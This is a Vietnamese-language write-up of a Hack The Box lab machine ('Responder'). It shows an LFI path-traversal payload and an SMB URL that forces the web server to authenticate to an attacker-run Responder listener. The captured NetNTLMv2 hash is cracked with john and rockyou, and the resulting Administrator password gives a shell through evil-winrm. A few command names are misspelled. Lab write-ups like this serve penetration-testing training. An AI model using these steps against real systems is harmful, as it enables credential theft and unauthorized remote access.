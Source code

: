 > Lab này tập trung vào Lỗ hổng File Inclusion trên trang web được hosted trên Windows machine can be exploited để thu nhập *NetNTLMv2 challege* của người dùng đang chạy web server với một công cụ là **Responder** để thu thập NetNTLMv2 hash và sau đó sử dụng **john the ripper** để giải mã mã băm.

###### File Inclusion: một lỗ hổng cho phép tin tặc truy cập trái phép vào những tập tin nhạy cảm trên máy web hoặc thực thi các tệp tin nhạy cảm trên máy chủ web hoặc thực thi các tệp tin độc hại bằng cách sử dụng chức năng "include". Lỗ hổng này xảy ra do cơ chế kiểm tra đầu vào không được thực hiện tốt, khiến tin tặc có thể khai khác và chèn dự liệu độc hại.
### 1. Tìm kiếm thông tin
###### IP: 10.129.95.234
##### + Kiểm tra kết nối:
` ping 10.129.95.234 `
##### + Kiểm tra cổng và dịch vụ:
` nmap -p- --min-rate 1000 -sV 10.129.95.234 `
###### --min-rate: cụ thể số packet mà Nmap gửi đi mỗi giây; số càng cao thì scan sẽ nhanh hơn
##### => 80/tcp http Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1).
##### => 5985/tcp http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP).
##### => Target đang sử dung hệ điều hành Windows. 2 Cổng phát hiện có Apache web server đang chạy trên cổng 80 cùng với *WinRM* trên cổng 5985.
###### WinRM (Windows Remote Management) là một protocol quản lý từ xa được tích hợp sẵn trong Win, dùng để tương tác với máy tính và server từ xa. WinRM cho phép người dùng giao tiếp từ xa với máy chủ, thực thi lệnh trên hệ thông, xem, quản lý và cấu hình server, hệ điều hành và máy khách từ xa.
##### + Đối với pentester, điều đó có nghĩa là chúng ta có thể tìm thông tin (như tên người dùng và mật khẩu) của người dùng có quyền thực thi lệnh từ xa và từ đó lấy được PowerShell trên máy chủ.
### 2. Xem xét qua các lỗ hổng
##### + Truy cập địa chỉ trang web:
` http://10.129.95.234 `
###### Có thể bỏ :80 đằng sau vì cổng 80 là mặc định
##### => Trang web trả về tin nhắn là không thể tìm thấy site đó. Tuy nhiên khi nhìn vào thanh tìm kiếm, nó hiện là *http://unika.htb*.
###### Trong trường hợp này, website đã điều hướng trình duyệt sang một đường link mới và máy chủ không biết cách tìm *unika.htb*. Webserver này đang sử dụng *Virtual Hosting* dựa trên tên để phục vụ các request.
###### Xem thêm về khái niệm Virtual Hosting: https://vietnix.vn/virtual-hosts/
##### + File /etc/hosts được sử dụng để chuyển hóa tên hostname sang IP address. Thêm *entry* cho /etc/hosts để giúp trình duyệt xử lý địa chỉ cho *unika.htb*:
` echo "10.129.95.234   unika.htb" | sudo tee -a /etc/hosts `
##### + Sau khi thực hiện lệnh, truy cập lại trang web:
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/102fc7ae-a476-4502-808b-cf383e78d271)
##### + Truy cập trang web thành công, sau khi mày mò thử trang web, để ý thấy trong phần thay đổi ngôn ngữ từ *EN* sang *FR* - tiếng Anh sang tiếng Pháp thì sẽ thấy thanh URL như sau: 
` https//unika.htb/index.php?page=french.html `
##### => Lỗ hổng *File Inclusion*
##### + LFI, hay *Local File Inclusion* xảy ra khi attacker có thể làm cho website 'bao gồm' hay 'include' một file đáng lẽ ra không nên được nhìn thấy bởi người dùng trang web. Thường xảy ra khi ứng dụng sử dụng path của file như một input. Attacker có thể khai thác lỗ hổng này bằng cách sử dụng `../` để lùi về path trước đó.
##### + Thử xem trang web có lỗ hổng LFI hay không với lệnh sau: 
```
http://unika.htb/index.php? 
page=../../../../../../../../windows/system32/drivers/etc/hosts
```
###
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/b5405c79-c1bc-43da-bcdc-5b606bec612e)
##### => Có lỗ hổng LFI
###### Xem thêm về incldue() trong PHP ở dây: https://www.php.net/manual/en/function.include.php
### 3. Tấn công Lỗ hổng
##### + Vì File có lỗ hổng với LFI nên ta có thể chèn một file mã độc vào target với SMB URLs. 
##### + Vì Windows khi nhận một file có phương thức SMB, hệ thống sẽ có xác thực máy của chúng ta với NetNTMLv2 và ta sẽ bắt giữ hàm băm NetNTMLv2 nhằm bypass bước xác thực đó.
###### Xem thêm cách hoạt động của NTLM authen: https://www.ionos.com/digitalguide/server/know-how/ntlm-nt-lan-manager/
###### Xem thêm cách đẩy lên web SMB URL: https://book.hacktricks.xyz/windows/ntlm/places-to-steal-ntlm-creds#lfi
##### + Đây sẽ là quy trình của cuộc tấn công này: 
```
Attacker: Set up một SMB giả với Responder, chờ đợi yêu cầu.
Attacker: Đẩy file bất kỳ lên web, bắt trang web yêu cầu include(), aka cố kết nối với server SMB. 
Target (trang web): Chứng minh xác thức với SMB giả kia.
Responder: Gửi một phương thức xác thực ('challenge') đến target, yêu cầu sử dụng mật khẩu của người dùng để xác thực.
Target: sử dụng mật khẩu người dùng, mã hóa nó để tạo phản hồi cho Responder.
Responder: sử dụng phản hồi mã hóa này kèm với 'challenge' ban đầu nó gửi cho target, tạo nên mã băm NetNTLMv2
Attacker: Sử dụng john the ripper để giải mã NetNTLMv2
Attacker: Sử dụng đoạn mã được giải truy cập vào WinRM
```
##### + Nếu chưa có Responder trên máy:
` git clone https://github.com/lgandx/Responder `
##### + Kiểm tra xem Responder.conf đã được set để lắng nghe các yêu cầu SMB chưa:
```
cat Responder.conf

[Responder Core]

; Server to start
SQL = On
SMB = On

...
```
###### + Kiểm tra giao diện mạng, chạy Responder:
```
ifconfig      # giao diện mạng : tun 0
sudo python3 Responder.py -I tun0
```
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/72aa226a-8104-4bc5-b89f-b61ec10a4d67)
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/99f661a9-5a6a-4b48-8e91-f414d06b0e1d)

##### + Như vậy, Responder đã sẵn sàng, ta thay đổi url trang web để bắt nó gửi yêu cầu đến SMB:
` http://unika.htb/?page=//10.10.14.32/somefile `
###### 10.10.14.32: IP của tun0
###### somefile: file ngẫu nhiên
###### + Sau đó, server sẽ thử load resource từ SMB server và Responder sẽ bắt giữ đủ thông tin và tạo NetNTLMv2:
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/c1c3da6d-eefd-46bc-80e4-256465aadef6)

![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/c1020df6-8db1-4984-8fb0-7a5f1afcd0cf)

##### + Đã có được giá trị hàm băm, đẩy vào file để *john the ripper* xử lý:
```
echo <giá trị hash> > hash.txt
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

### 4. Khai thác thông tin
##### + Sau đó ta được mật khẩu cho user: *badminton* và tên user: *Administrator*. Kết nối với WinRM thông qua Evil-WinRM:
##### Eveil-WinRM là một tool chuyên dùng cho kết nối với WinRM với nhiều tính năng cho kiểm thử và khai thác lỗ hổng
```
evel-winrm -i 10.129.95.234 -u administrator -p badminton
Evil-WinRM shell v3.5
...
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd ..
*Evil-WinRM* PS C:\Users> dir
...
*Evil-WinRM* PS C:\Users> cd mike
*Evil-WinRM* PS C:\Users> dir
....
*Evil-WinRM* PS C:\Users> cd Desktop; dir
*Evil-WinRM* PS C:\Users> type flag.txt
...
```
##### => Lấy flag thành công!
